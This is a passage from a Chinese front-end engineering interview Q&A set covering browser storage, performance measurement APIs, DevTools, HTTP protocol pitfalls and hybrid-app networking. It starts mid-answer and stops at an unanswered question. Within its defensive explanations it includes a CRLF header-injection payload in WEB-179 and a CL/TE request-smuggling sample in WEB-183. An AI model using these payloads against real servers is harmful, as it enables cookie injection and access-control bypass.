- 核心：把 onsuccess/onerror 包成 Promise，事务粒度封装 get/put/delete/getAll；连接做单例缓存。
- 版本迁移：open(name, version) 的 onupgradeneeded 里按 oldVersion 逐级执行迁移函数，旧迁移逻辑永不删除。
- 迁移只做"结构变更"（建表/建索引/搬数据），业务数据变更尽量放应用层代码。
- 细节：事务在 await 之后可能已关闭，所有请求必须在事务创建的同步栈里发起；版本变更被其他标签页阻塞时给 onblocked 提示。

```javascript
// 极简 IDB 封装：Promise 化 + 迁移注册表
const MIGRATIONS = {
  1: (db) => db.createObjectStore('notes', { keyPath: 'id' }),
  2: (db, tx) => tx.objectStore('notes').createIndex('byUpdated', 'updatedAt'), // 版本 2 补索引
};
function openDB(name, version) {
  return new Promise((resolve, reject) => {
    const req = indexedDB.open(name, version);
    req.onupgradeneeded = (e) => {
      for (let v = e.oldVersion + 1; v <= version; v++) MIGRATIONS[v]?.(req.result, req.transaction); // 逐版本推进
    };
    req.onsuccess = () => resolve(req.result);
    req.onblocked = () => console.warn('请关闭其他标签页以完成升级');
    req.onerror = () => reject(req.error);
  });
}
async function put(db, store, value) {
  return new Promise((resolve, reject) => {
    const tx = db.transaction(store, 'readwrite');   // 事务内同步发起请求
    tx.objectStore(store).put(value);
    tx.oncomplete = resolve;
    tx.onerror = () => reject(tx.error);
  });
}
```

### WEB-161：OPFS（Origin Private File System）是什么？解决什么问题？
**答**：
- OPFS 是源私有的文件系统：路径不可枚举、不与用户文件混用，配额走标准 Storage 体系，storage.getDirectory() 拿根目录。
- 亮点是同步访问句柄 createSyncAccessHandle()：只能在 Worker 里用，对文件做同步读写，性能远超 Web 上的异步 API。
- 主线程只能用异步 createWritable()；两者覆盖"后台高性能计算"与"前台轻量存文件"两个场景。
- 典型应用：SQLite-WASM 的持久化后端（官方推荐就是 OPFS），让浏览器里跑数据库性能可用；也用于大模型文件、视频帧处理。

```javascript
// OPFS 基本读写（主线程异步 API）
const root = await navigator.storage.getDirectory();
const fileHandle = await root.getFileHandle('page-count.json', { create: true });
const writable = await fileHandle.createWritable();
await writable.write(JSON.stringify({ visits: 42 }));
await writable.close();
const blob = await fileHandle.getFile();
console.log(JSON.parse(await blob.text()).visits); // 42

// Worker 里的高性能同步句柄（SQLite-WASM 的用法，仅 Worker 可用）
// const fh = await root.getFileHandle('db.sqlite', { create: true });
// const access = await fh.createSyncAccessHandle();
// access.write(buf, { at: offset }); access.flush(); access.read(buf, { at: offset });
```

### WEB-162：Cache API 和 Service Worker 是什么关系？页面里能直接用吗？
**答**：
- Cache API（caches 对象）是独立的存储能力，Service Worker 只是它最常见的"使用方"——SW 不在时页面也能直接读写缓存。
- 二者解耦：预缓存可以由页面发起，请求拦截才是 SW 的职责；注销 SW 不必然清空 Cache Storage。
- 每个 Cache 是 Request/Response 的键值集合，存的是"完整 HTTP 语义"（含头与状态码），与 HTTP 缓存是两套体系。
- 版本化靠缓存命名空间（cache-v1/v2），activate 时清理旧版本；match 支持 ignoreSearch 等匹配参数。

```javascript
// 页面直接使用 Cache API（无需 Service Worker）
const cache = await caches.open('app-shell-v1');
// 写入：可存网络响应，也可手工构造 Response
await cache.put('/api/config', new Response(JSON.stringify({ theme: 'dark' }), {
  headers: { 'content-type': 'application/json' },
}));
// 读取：match 返回 Response 或 undefined
const cached = await cache.match('/api/config', { ignoreSearch: true });
if (cached) console.log('hit:', await cached.json());
// 版本升级时清理旧命名空间
const names = await caches.keys();
await Promise.all(names.filter((n) => n !== 'app-shell-v1').map((n) => caches.delete(n)));
```

### WEB-163：离线优先架构里，本地修改如何与服务器同步并解决冲突？
**答**：
- 架构：写操作先落本地（IDB 队列）并乐观更新 UI → 后台任务重试同步 → 服务端确认后标记完成。
- 同步需幂等：每个操作带唯一 mutationId，服务端按 ID 去重，网络重试不产生重复写入。
- 冲突解决三选一：版本号/时间戳的 last-write-wins、操作级 CRDT（协同文档）、业务规则合并（字段级优先级）。
- 用户侧兜底：无法自动合并时给"选一版"的 UI，绝不静默丢数据。

```javascript
// 同步队列：幂等 ID + 指数退避 + 版本冲突处理
async function enqueue(mutation) {
  mutation.mutationId = crypto.randomUUID();
  mutation.baseVersion = (await db.get('docs', mutation.docId)).version;
  await db.put('syncQueue', mutation);
  scheduleFlush();
}
async function flush() {
  const ops = await db.getAll('syncQueue');
  for (const op of ops) {
    const res = await fetch('/api/sync', { method: 'POST', body: JSON.stringify(op) });
    if (res.status === 200) { await db.delete('syncQueue', op.mutationId); }
    else if (res.status === 409) {
      // 版本冲突：默认 last-write-wins，同时保留服务端版本供用户选择回滚
      const { serverDoc } = await res.json();
      await resolveConflict(op, serverDoc);
    } else if (res.status >= 500) { backoff(); break; }  // 服务端异常稍后整体重试
  }
}
```

### WEB-164：Web Locks API 怎么保证多标签页一致性？
**答**：
- 问题：多标签页同源操作共享存储（IDB 清理、轮询去重、任务分发）会互相踩踏。
- Web Locks：navigator.locks.request(name, callback) 对命名锁排队，同一时刻只有一个持有者，标签页关闭自动释放——比 localStorage 抢锁健壮得多。
- 模式：独占（默认）与共享 { mode: 'shared' }；ifAvailable: true 抢不到就走降级逻辑，不排队。
- 典型用法：同一时刻只允许一个标签页做数据同步/过期清理/连接建立，其余标签页等待或复用结果。

```javascript
// 只让一个标签页执行过期缓存清理，其余直接跳过
navigator.locks.request('cache-gc', { ifAvailable: true }, async (lock) => {
  if (!lock) return;                       // 别的标签页在清理，跳过
  const stale = await findStaleEntries();
  await Promise.all(stale.map((k) => db.delete('cache', k)));
  console.log('gc done by this tab');
});
// 需要等待锁的场景（如初始化迁移）：不加 ifAvailable，自动排队
await navigator.locks.request('db-migrate', async () => {
  await runMigrationOnce();
});
```

## 二十七、性能采集与分析

### WEB-165：Navigation Timing 2 有哪些关键字段？怎么用它们拆解加载耗时？
**答**：
- 时间轴主干：startTime → redirect → fetchStart → DNS（domainLookup）→ TCP（connect，secureConnectionStart 拆 TLS）→ requestStart → responseStart（TTFB）→ responseEnd → domInteractive/DCL/load 等里程碑。
- 常用派生：DNS = domainLookupEnd - domainLookupStart；TTFB = responseStart - startTime；TLS = connectEnd - secureConnectionStart。
- type 字段区分 navigate/reload/back_forward，预渲染会影响口径。
- 上报注意：时间统一从 startTime 起算，避免与 timeOrigin 混用带来的偏差。

```javascript
const nav = performance.getEntriesByType('navigation')[0];
const timing = {
  type: nav.type,                                   // navigate / reload / back_forward
  redirect: nav.redirectEnd - nav.redirectStart,    // 重定向开销
  dns: nav.domainLookupEnd - nav.domainLookupStart, // DNS 解析
  tcp: nav.secureConnectionStart > 0
    ? nav.secureConnectionStart - nav.connectStart  // 纯 TCP 段
    : nav.connectEnd - nav.connectStart,            // 无 TLS 时整段都是 TCP
  tls: nav.secureConnectionStart > 0 ? nav.connectEnd - nav.secureConnectionStart : 0,
  ttfb: nav.responseStart - nav.startTime,          // 首字节
  download: nav.responseEnd - nav.responseStart,    // 响应下载
  domReady: nav.domContentLoadedEventEnd - nav.startTime,
  load: nav.loadEventEnd - nav.startTime,
};
report('navigation-timing', timing); // 逐段定位慢在哪一层
```

### WEB-166：Resource Timing 为什么拿不到跨域资源的耗时细节？TAO 怎么解决？
**答**：
- 出于隐私（时序侧信道可推测资源内容），跨域资源的 Resource Timing 敏感字段被置 0（transferSize、requestStart、responseStart 等）。
- Timing-Allow-Origin（TAO）响应头授权指定来源读取完整时序，等价于 CORS 的"时序版"。
- 同源资源天然全量可读；上报要拿到细粒度数据，就要让 CDN 与静态资源都带上 TAO。
- entry 里还有 nextHopProtocol（h2/h3）与 serverTiming（需服务端配合）可一起上报。

```javascript
// 跨域资源未授权 TAO 时，敏感字段全是 0
const entry = performance.getEntriesByType('resource').find((e) => e.name.includes('cdn.example.com'));
console.log(entry.requestStart); // 0，未配置 Timing-Allow-Origin
// CDN 配置 Timing-Allow-Origin: https://app.example.com 后即可读取
console.log({
  protocol: entry.nextHopProtocol,     // h2 / h3
  dns: entry.domainLookupEnd - entry.domainLookupStart,
  tcp: entry.connectEnd - entry.connectStart,
  ttfb: entry.responseStart - entry.startTime,
  size: entry.transferSize,            // 未授权时也是 0
});
```

### WEB-167：User Timing API 怎么定义业务自定义指标？
**答**：
- performance.mark(name) 打点，performance.measure(name, startMark, endMark) 计算区间，精度与浏览器内建指标一致。
- 自定义指标是标准 PerformanceEntry（entryType 为 mark/measure），可被同一套 PerformanceObserver 采集上报。
- 典型用法：业务关键节点（搜索结果首条渲染、支付弹窗出现）打 mark，让业务指标与 TTFB/FP 同口径对比。
- measure 的 options 也支持直接给 start/end 数值，适合与异步事件配合。

```javascript
// 业务自定义指标：搜索到首条结果渲染
performance.mark('search:start');
const results = await search(keyword);
requestAnimationFrame(() => {
  performance.mark('search:first-row-painted');
  performance.measure('search-latency', 'search:start', 'search:first-row-painted');
  const [m] = performance.getEntriesByName('search-latency');
  report('custom-metric', { name: m.name, duration: m.duration }); // 与内建指标同口径
});
```

### WEB-168：Long Animation Frames API（LoAF）是干什么的？
**答**：
- INP 差的时候只知道"这次交互慢"，LoAF 把慢帧拆开：每帧超过 50ms 时给出脚本耗时、阻塞时长、具体脚本 URL。
- 相比 Long Tasks：LoAF 覆盖到渲染相关阻塞，能定位到具体脚本与强制同步布局。
- 用法：PerformanceObserver 观察 long-animation-frame，把最重几帧连同交互信息上报。
- 修复路径：看 scripts 里 duration 集中在哪个模块 → 拆任务/延迟非关键代码/消除强制同步布局。

```javascript
new PerformanceObserver((list) => {
  for (const frame of list.getEntries()) {
    report('loaf', {
      duration: frame.duration,          // 帧总时长，达到 50ms 阈值才产生条目
      blocking: frame.blockingDuration,  // 超出 50ms 的阻塞部分
      scripts: frame.scripts.slice(0, 3).map((s) => ({   // 最重的脚本
        url: s.sourceURL || s.invokerType,               // 定位到文件或调用者
        duration: s.duration,
        forcedStyleAndLayout: s.forcedStyleAndLayoutDuration, // 强制同步布局
      })),
    });
  }
}).observe({ type: 'long-animation-frame', buffered: true });
```

### WEB-169：Event Timing 与 INP 的计算细节是什么？
**答**：
- Event Timing 记录每次用户交互事件：startTime、processingStart（事件处理器开始）、processingEnd、duration。
- 单次交互的延迟 = 该交互内所有事件 duration 的最大值（duration 覆盖到下一次绘制完成，含渲染）。
- INP = 统计周期内所有交互延迟的"最差档"（接近 P98），衡量的是页面里表现最差的那次交互，不是平均值。
- 归因：把命中的那次交互的 target、事件类型与当帧 LoAF 数据一起上报才能定位代码。
- 阈值：小于 200ms 良好，200-500ms 需改进，大于 500ms 差。

```javascript
const interactions = new Map();
new PerformanceObserver((list) => {
  for (const e of list.getEntries()) {
    // 同一次交互可能派发多个事件，interactionId 相同，保留最大 duration
    const prev = interactions.get(e.interactionId);
    if (!prev || e.duration > prev.duration) interactions.set(e.interactionId, e);
  }
}).observe({ type: 'event', durationThreshold: 16, buffered: true });
// 采样结束时取最差交互作为 INP
function reportINP() {
  const worst = [...interactions.values()].sort((a, b) => b.duration - a.duration)[0];
  if (worst) report('inp', {
    value: worst.duration,             // 阈值 200/500ms
    target: worst.target?.tagName,     // 命中的元素
    latency: worst.processingStart - worst.startTime, // 事件处理前的延迟
  });
}
```

### WEB-170：PerformanceObserver 的 buffer 满了会怎样？怎么不丢早期数据？
**答**：
- 各类 entry 有缓冲上限（Resource Timing 默认 250 条），满了之后新条目被丢弃——SPA 接口多、页面重时很容易踩。
- 三招：buffered: true 回放观察前已产生的条目；注册后尽快 takeRecords() 清空缓冲；监听 resourcetimingbufferfull 事件并及时 clearResourceTimings()。
- 更稳的方案：SDK 在启动早期就注册 observer 并周期性取走条目，把缓冲当"溢出保险"而不是主通道。
- 丢失检测：对比"理论应上报数"与"实收数"，或利用浏览器给出的 dropped 指标确认。

```javascript
// 采集 SDK 的防丢策略：早注册 + buffered 回放 + 及时清缓冲
const pending = [];
const observer = new PerformanceObserver((list) => {
  pending.push(...list.getEntries().map((e) => e.toJSON()));
});
observer.observe({ type: 'resource', buffered: true }); // 回放已发生的资源条目
// 缓冲将满时立即转移并清空，避免新条目被丢弃
performance.addEventListener('resourcetimingbufferfull', () => {
  pending.push(...performance.getEntriesByType('resource'));
  performance.clearResourceTimings();
});
setInterval(() => { if (pending.length) send(pending.splice(0, 50)); }, 5000);
```

### WEB-171：性能数据上报怎么做分位数聚合才准？
**答**：
- 通用做法：端上上报原始样本，平台侧聚合 P50/P75/P95/P99；样本量大时用 t-digest/HdrHistogram 做近似分位数，内存可控。
- 端上会话级聚合适合"会话结束一次性上报"，减少请求数；样本排序取位即可。
- 上报必须带维度：指标名、分位数、样本量、版本、网络类型，否则分位数无法归因。
- 陷阱：别急着丢长尾——长尾本身就是问题；不同页面类型分开算，混算会掩盖问题。

```javascript
// 端上聚合：会话内收集 LCP 样本，按分位数一次性上报
class Quantile {
  constructor() { this.samples = []; }
  push(v) { this.samples.push(v); }
  p(q) {
    if (!this.samples.length) return null;
    const s = [...this.samples].sort((a, b) => a - b);
    const idx = Math.max(0, Math.ceil(q * s.length) - 1);
    return s[idx];
  }
}
const lcp = new Quantile();
new PerformanceObserver((list) => {
  lcp.push(list.getEntries().at(-1).startTime); // LCP 取最后一次
}).observe({ type: 'largest-contentful-paint', buffered: true });
window.addEventListener('pagehide', () => {
  navigator.sendBeacon('/rum', JSON.stringify({
    metric: 'lcp', p50: lcp.p(0.5), p75: lcp.p(0.75), p95: lcp.p(0.95), n: lcp.samples.length,
  }));
});
```

## 二十八、调试与工具

### WEB-172：DevTools Network 面板有哪些高频功能？
**答**：
- 瀑布图逐列定位：Queueing（连接数限制）、Stalled（代理/磁盘）、TTFB（服务端慢）、Content Download（体积大）。
- 状态识别：灰色的 from cache/304、红色的 blocked: cors、紫色的 pending；勾选 Disable cache 排除缓存干扰，配 throttling 预设（Slow 4G）模拟弱网。
- 过滤器支持语法：-domain:cdn、method:POST、larger-than:100kB；Block request URL 验证资源缺失时的降级表现。
- 右键 Copy as fetch/cURL 一键复现请求；导出 HAR（json 格式）给他人离线分析，timings 字段与瀑布图各列一一对应，dns/connect/ssl 为 -1 表示复用已有连接。

```json
{
  "log": {
    "entries": [{
      "_resourceType": "xhr",
      "request": { "method": "GET", "url": "https://api.example.com/list?page=1" },
      "response": { "status": 200, "headersSize": 312, "bodySize": 18204 },
      "timings": {
        "blocked": 12, "dns": -1, "connect": -1, "ssl": -1,
        "send": 0, "wait": 388, "receive": 24, "_blocked_queueing": 3
      }
    }]
  }
}
```

### WEB-173：Sources 面板支持哪些断点类型？
**答**：
- 行断点之外五类：条件断点（表达式为真才停）、日志点 Logpoint（不暂停只打印）、DOM 断点（子树/属性修改时停）、事件监听断点（click/mouseover 一律暂停）、XHR/fetch 断点（URL 含关键字时停）。
- 黑盒脚本（Blackbox）：调试时跳过第三方库内部堆栈，聚焦业务代码。
- 暂停后用 Call Stack 回溯来源、Scope 面板看闭包值；debugger 语句等价行断点。
- 条件断点在热路径里慎用——每次命中都要求值，会明显拖慢执行。

```javascript
// 条件断点：行断点上右键 Add conditional breakpoint，输入表达式
//    cart.items.length > 100        // 只在购物车超 100 件时暂停
// 日志点：Add logpoint，输入
//    'add-to-cart', cart.items.at(-1).id   // 不暂停，仅打印每次加入的商品 id
// XHR/fetch 断点：面板输入关键字 checkout，任何匹配 URL 的请求发出前暂停
async function addToCart(item) {
  const cart = await api.get('/cart');
  cart.items.push(item);
  return api.post('/cart', cart);   // 在这一行设条件断点或日志点观察 cart 内容
}
```

### WEB-174：Performance 面板的火焰图怎么读？
**答**：
- 主线程泳道自上而下是调用栈：宽度等于占用时间，颜色区分类型（脚本/样式/绘制），找最宽的块就是瓶颈。
- 长任务有红色三角标记；红色斜纹表示强制同步布局；Recalculate Style 与 Layout 要分开看。
- Network 泳道与主线程对照：接口快但页面卡，说明卡在拿到数据后的处理。
- Bottom-Up 视图按自耗时间排序直接看"谁最费"；录制前开 CPU 降速复现低端机。

```javascript
// 用 console API 圈定录制区间，避免长录制淹没关键路径
console.profile('list-render');
renderList(5000);              // 疑似卡顿的代码路径
console.profileEnd('list-render');
// 在 Performance 面板里按 list-render 区间定位：
// 优先找长脚本任务，以及 Recalculate Style 后紧跟 Layout 的强制同步布局
```

### WEB-175：Memory 面板的快照对比怎么做？retained size 是什么？
**答**：
- 三步法：操作前拍快照 → 执行可疑操作（开关弹窗 N 次）→ 再拍快照，Comparison 视图看新增对象。
- 两个关键列：Shallow Size（对象自身内存）、Retained Size（对象被 GC 后能释放的总内存，含其引用链）——排查泄漏按 retained size 排序。
- 典型泄漏特征：Detached DOM 数量增长、闭包引用的业务对象残留、全局 Map/数组只增不减。
- 在 Retainers 链里找"谁还攥着它"，通常指向事件监听器或全局缓存。

```javascript
// 可疑泄漏代码：每次渲染都往全局数组塞闭包，DOM 被引用无法回收
const cache = [];
function renderCard(data) {
  const el = document.createElement('div');
  el.textContent = data.title;
  cache.push({ el, onClick: () => open(data.id) }); // el 被全局持有，弹层关闭后成为 Detached DOM
  document.body.appendChild(el);
}
// 修复：弹层销毁时移除引用（el.remove() 并清出 cache），或改用 WeakRef/WeakMap 持有
// 验证：快照对比视图 filter 输入 Detached，关闭弹窗后数量应归零
```

### WEB-176：Coverage 面板怎么用？未使用代码率多少算健康？
**答**：
- 命令面板搜 Coverage 录制页面加载与交互，统计 JS/CSS 的字节级使用率：绿色已用、红色未用。
- 两个数字分开看：首屏未用率（影响加载性能）与全程未用率（影响维护成本）；首屏未用率超过一半通常意味着该拆包。
- CLI 化：Puppeteer 的 page.coverage 可进 CI 做未用代码率门禁。
- 行动项：路由级 code splitting、组件库按需引入、检查 tree-shaking 是否被 CJS 依赖破坏。

```javascript
// Puppeteer 在 CI 中量化未使用代码率
const page = await browser.newPage();
await page.coverage.startJSCoverage();
await page.goto('https://app.example.com', { waitUntil: 'networkidle0' });
const js = await page.coverage.stopJSCoverage();
for (const e of js) {
  const total = e.text.length;                                     // 文件总字节
  const used = e.ranges.reduce((s, r) => s + (r.end - r.start), 0); // 执行到的字节
  const ratio = (used / total * 100).toFixed(1);
  if (total > 100000 && used / total < 0.5) console.log('候选拆分:', e.url, `${ratio}%`);
}
```

### WEB-177：哪些 chrome:// 内部页与 flags 对前端实用？
**答**：
- chrome://net-export 记录网络日志（DNS/连接复用/QUIC 细节），配合 netlog viewer 离线分析，比抓包更贴近浏览器真实行为。
- chrome://tracing 深挖浏览器内部；chrome://process-internals 看站点隔离的进程分配。
- chrome://net-internals 系列：DNS 缓存查看与清除、Sockets、HSTS 状态查询。
- 常用 flags 与启动参数：--disable-http-cache、force-effective-connection-type 模拟弱网、PartitionedCookies 验证 CHIPS。
- 提醒：内部页与 flags 是诊断用途，结论要与用户真实环境交叉验证。

```bash
# 记录网络日志：开始录制，复现问题，停止并保存 json
open -a "Google Chrome" "chrome://net-export"
# 把 json 导入 netlog viewer（官方在线工具）分析 DNS 与连接复用
# 用无头模式验证某个 feature 的行为差异
"/Applications/Google Chrome.app/Contents/MacOS/Google Chrome" \
  --headless --disable-gpu --user-data-dir=/tmp/chrome-prof \
  --enable-features=PartitionedCookies --dump-dom https://app.example.com > /dev/null
# 查看站点隔离把哪些源分配到独立进程
open -a "Google Chrome" "chrome://process-internals"
```

## 二十九、协议细节陷阱

### WEB-178：URL 里的百分号编码、IDN、Punycode 是怎么回事？
**答**：
- URL 只允许有限字符集，其余按 UTF-8 字节做百分号编码；encodeURI 保留 URL 结构字符，encodeURIComponent 编码得更彻底（查询参数值用它）。
- IDN（国际化域名）：中文/日文域名在 DNS 层不存在，转成 Punycode（xn-- 开头）才是真实协议值。
- 安全关联：同形异义字符（西里尔 a 与拉丁 a）可伪装钓鱼域名，浏览器靠 IDN 策略与显示 Punycode 缓解。
- 陷阱集：+ 在表单编码里是空格但 encodeURIComponent 不转它（变 %2B）；location.search 拿到的是已编码原文，读参数用 URLSearchParams。

```javascript
const raw = 'https://例え.jp/搜索 a?q=中文&plus=1+2';
const u = new URL(raw);
console.log(u.href);
// https://xn--r8jz45g.jp/%E6%90%9C%E7%B4%A2%20a?q=%E4%B8%AD%E6%96%87&plus=1+2
// 域名被转成 Punycode，路径与查询按 UTF-8 字节做百分号编码
console.log(encodeURIComponent('a+b'));   // a%2Bb，+ 必须编码否则被解析成空格
console.log(encodeURIComponent('中文'));  // %E4%B8%AD%E6%96%87
new URLSearchParams('?plus=1+2').get('plus');   // '1 2'，表单语义里 + 是空格
new URLSearchParams('?plus=1%2B2').get('plus'); // '1+2'
```

### WEB-179：HTTP 头注入（CRLF 注入）是什么原理？
**答**：
- HTTP 头以 CRLF 分隔，若把用户输入拼进响应头且值里含 \r\n，攻击者可提前结束头部区并注入新头甚至新响应体。
- 危害：注入 Set-Cookie（种会话）、Location（任意跳转）等任意头；配合缓存投毒影响其他用户。
- 修复：任何写入响应头的值先拒绝 CR 与 LF；现代框架与新版 Node 的 setHeader 会直接抛 ERR_INVALID_CHAR，但自研网关与老代码仍需自查。
- 延伸：请求侧头同样要校验，防止为请求走私做铺垫。

```javascript
// Node 侧的正确处理：拒绝带换行的头值
const http = require('http');
http.createServer((req, res) => {
  const lang = new URL(req.url, 'http://x').searchParams.get('lang') || 'zh';
  // 漏洞写法（老版本可能被注入）：res.setHeader('Content-Language', lang)
  if (/[\r\n]/.test(lang)) {              // 修复：显式拒绝控制字符
    res.writeHead(400).end('bad lang');
    return;
  }
  res.setHeader('Content-Language', lang);
  res.end('ok');
});
// 攻击样例（旧环境可复现）：?lang=zh%0d%0aSet-Cookie:%20pwned=1
```

### WEB-180：Cookie 前缀 __Host- 和 __Secure- 是干什么的？
**答**：
- 浏览器对前缀有硬性约束：__Secure- 必须带 Secure；__Host- 必须 Secure 且 Path=/ 且不能有 Domain 属性。
- 收益：__Host- 从协议层保证"这个 Cookie 一定属于当前精确域名、全站路径、仅 HTTPS"，子域与路径注入都写不出来。
- 前缀必须从名字第一个字符开始；设置时不满足约束浏览器直接拒收——比事后校验可靠。
- 实践：会话 Cookie 用 __Host-session；确实需要子域共享的才退回普通 Cookie 加 Domain。

```http
# 会话 Cookie 用 __Host- 前缀：浏览器强制校验以下条件全部满足才接受
Set-Cookie: __Host-session=abc123; Secure; HttpOnly; SameSite=Lax; Path=/

# 反例：带 Domain 属性或 Path 非 /，浏览器直接拒收（静默失败，排查时注意）
# Set-Cookie: __Host-session=abc123; Secure; Domain=example.com; Path=/

# 需要子域共享时退回普通 Cookie，至少保证 Secure
Set-Cookie: theme=dark; Secure; Domain=example.com; Path=/; SameSite=Lax
```

### WEB-181：SameSite=None 的约束是什么？第三方 Cookie 为什么在消亡？
**答**：
- SameSite=None 必须搭配 Secure，否则浏览器拒收；它是"允许跨站发送 Cookie"的唯一开关，第三方 iframe/广告/支付都依赖它。
- 消亡进程：Safari ITP 与 Firefox 已默认分区或禁用第三方 Cookie，Chrome 逐步限制并推进隐私沙盒替代。
- 技术替代方向：CHIPS（Partitioned 属性，Cookie 按顶级站点分区存储）、Storage Access API、Topics/Fenced Frame 等沙盒 API。
- 前端影响：嵌入第三方登录/支付/统计的 iframe 若依赖跨站 Cookie，需要迁移到分区 Cookie 或 Storage Access。

```http
# 跨站场景（iframe 内业务）：分区 Cookie，按顶级站点隔离存储
Set-Cookie: __Host-widget_state=t1; Secure; HttpOnly; SameSite=None; Partitioned; Path=/

# 传统跨站 Cookie（未来将被限制，仅过渡期）
Set-Cookie: tracker=u42; Secure; SameSite=None; Path=/

# 配套 API：被嵌入方主动向用户申请访问其第一方 Cookie
# await document.requestStorageAccess();  // 需要用户手势与浏览器授予
```

### WEB-182：强 ETag 和弱 ETag（W/ 前缀）的差异是什么？
**答**：
- 强校验器：字节级唯一，资源任何字节变化都变——适合 Range 断点续传（同一资源的所有分段必须来自同一实体）。
- 弱校验器 W/"..."：语义等价即可（内容一致但压缩、元数据不同也没关系）——适合 HTML 这类"渲染结果一致就行"的资源。
- 条件请求：If-None-Match 可带多个值；命中返回 304 不带 body；If-Match 用于并发写保护（乐观锁），不符返回 412。
- 工程坑：集群节点间 ETag 不一致会让协商缓存命中率暴跌；代理层压缩后对弱 ETag 处理不当会出现 304 与实际内容不符。

```http
# 首次响应：弱 ETag，语义级一致即可
HTTP/1.1 200 OK
ETag: W/"33a64df5"

# 再次请求：条件头可带多个值
GET /index.html HTTP/1.1
If-None-Match: W/"33a64df5", "abc123"

# 内容语义未变则返回 304 Not Modified，无 body
# 并发写保护：If-Match 与当前 ETag 不符时返回 412 Precondition Failed
```

### WEB-183：Content-Length 与 Transfer-Encoding: chunked 同时出现会怎样？
**答**：
- 规范裁决：两者同时存在时按 Transfer-Encoding 处理，Content-Length 被忽略。
- 实现不一致就产生"请求走私"空间：前端设备按 CL 解析、后端按 TE 解析，请求边界切错位，攻击者夹带第二个走私请求。
- 治理：网关统一标准化（剥离冲突头之一再转发）；CL 数值必须与实际 body 字节数一致，不符时按 400 处理而非静默截断。
- 服务端发送原则：定长用 Content-Length，未知长度用 chunked，绝不并发声明。

```http
# 冲突样例：同一报文同时带 CL 与 TE，规范规定 TE 优先
POST /api HTTP/1.1
Host: api.example.com
Content-Length: 6
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: api.example.com

# 按 TE 解析：0 结束第一个请求，后面的 GET /admin 成了走私的第二个请求
# 按 CL 解析：只读 6 字节，GET /admin 被当作下一个请求的起始，两种实现因此分叉
```

## 三十、移动网络与混合环境

### WEB-184：WiFi 与 4G 网络切换时，前端要注意什么？
**答**：
- 切换等于网络接口与 IP 变化，所有已建立的 TCP/TLS 连接作废：WS 与 HTTP/2 多路复用连接集中断开重连，形成"切换风暴"。
- 监听 online/offline（Network Information API 只做参考），对在途请求主动 abort，避免悬挂。
- 重连要指数退避加随机抖动；多标签页场景用 Web Locks/竞态协调，避免同时打爆服务端。
- 切换期优先恢复关键路径：先恢复鉴权态，再恢复业务通道；已失败的写操作进离线同步队列。

```javascript
// 切网时的连接治理：中断在途请求 + 延迟重连
let controller = null;
async function loadFeed() {
  controller?.abort();                      // 旧请求作废
  controller = new AbortController();
  try {
    const res = await fetch('/api/feed', { signal: controller.signal });
    render(await res.json());
  } catch (e) {
    if (e.name !== 'AbortError') scheduleRetry();
  }
}
window.addEventListener('offline', () => controller?.abort());
window.addEventListener('online', () => {
  // 抖动 0.5 到 2 秒，避免切换风暴把请求同时打回源站
  setTimeout(loadFeed, 500 + Math.random() * 1500);
});
```

### WEB-185：App WebView 的网络栈和系统浏览器有什么差异？
**答**：
- Android WebView 内嵌 Chromium 网络栈，但版本跟随系统 WebView 组件更新而非 App 自身——老设备能力差异大，要用特性检测兜底。
- iOS WKWebView 走系统 WebKit/URLSession 栈：HTTP/2 与 HTTP/3 支持度以 iOS 版本为准；App 原生网络层（OkHttp/Alamofire）又可能另配 HTTPDNS 或自实现协议。
- 坑点：WebView 与原生层的 Cookie、缓存互不共享；系统代理设置在两端生效范围不同。
- 实践：H5 里用特性检测而非 UA 判断能力；关键指标按端分开采集。

```javascript
// 端差异识别与能力兜底
const ua = navigator.userAgent;
const env = {
  androidWV: /;\s*wv\)/.test(ua) && /Android/.test(ua),   // Android WebView 特征
  iosWV: /iPhone|iPad/.test(ua) && !/Safari\//.test(ua),  // iOS 内嵌环境（非 Safari 主浏览器）
};
// 能力一律用特性检测，而不是只看 UA
const hasModernStorage = 'serviceWorker' in navigator && 'storage' in navigator;
// 需要端上能力（HTTPDNS、离线包、文件）时走 JSBridge
if (env.androidWV && window.NativeBridge?.setDns) {
  window.NativeBridge.setDns(JSON.stringify({ 'api.example.com': '203.0.113.7' }));
}
```

### WEB-186：混合 App 的"离线包"是怎么实现请求拦截的？
**答**：
- 原理：把 H5 静态资源打成 zip 提前下发并校验 md5，运行时把对 CDN 的请求劫持到本地文件——"网络请求"变成"读磁盘"。
- 端上机制：Android 用 WebViewClient.shouldInterceptRequest 按映射表返回本地 WebResourceResponse；iOS 用 WKURLSchemeHandler 或本地 HTTP 服务。
- 更新闭环：版本清单接口 → 差量下载 → 解压校验 → 原子切换映射表；未命中兜底回源 CDN。
- 关键设计：URL 指纹（hash）是映射表的键，命中失败必须无感回退网络，MIME 与编码头要与线上一致。

```javascript
// 离线包映射与拦截（示意：端上由 shouldInterceptRequest 或 WKURLSchemeHandler 执行同一张表）
const pkg = {
  version: '2026.11.05-3',
  base: 'https://cdn.example.com/h5/app/',
  map: { 'js/app.a3f9.js': 'pkg/js/app.a3f9.js', 'css/app.8c2d.css': 'pkg/css/app.8c2d.css' },
};
function intercept(requestUrl) {
  const path = requestUrl.replace(pkg.base, '');
  if (!pkg.map[path]) return null;                     // 未命中，走网络
  const local = readLocalFile(pkg.map[path]);          // 命中，读离线包文件
  return local ? { body: local, mime: guessMime(path) } : null; // 读不到也回退网络
}
```

### WEB-187：弱网模拟有哪些方法论？工具与真实场景怎么对照？
**答**：
- 三个层次：浏览器内（DevTools 节流预设与自定义 Profile）、系统级（Linux tc netem、macOS Network Link Conditioner、Windows clumsy）、真实环境（电梯/地铁/跨网漫游实测）。
- 参数组合要覆盖：高延迟+高丢包（弱 WiFi）、低带宽+高抖动（电梯）、频繁切换（地铁通勤）。
- 弱网验收标准：加载进度可感知、超时有兜底 UI、写操作可离线入队、不出现假死。
- 注意 DevTools 节流只作用于页面请求且不含系统级 DNS 开销；上线结论用系统级工具与真实场景交叉验证。

```bash
# Linux tc netem：200ms 延迟 + 25ms 抖动 + 1.5% 丢包
sudo tc qdisc add dev eth0 root netem delay 200ms 25ms loss 1.5%
# 限速 1Mbps，模拟低端 4G
sudo tc qdisc add dev eth0 root tbf rate 1mbit burst 32kbit latency 400ms
# 清除规则
sudo tc qdisc del dev eth0 root
# macOS 用 Network Link Conditioner（Xcode 附加工具），Windows 用 clumsy 注入丢包与延迟
```

### WEB-188：混合 App 的 Cookie 同步有哪些坑？
**答**：
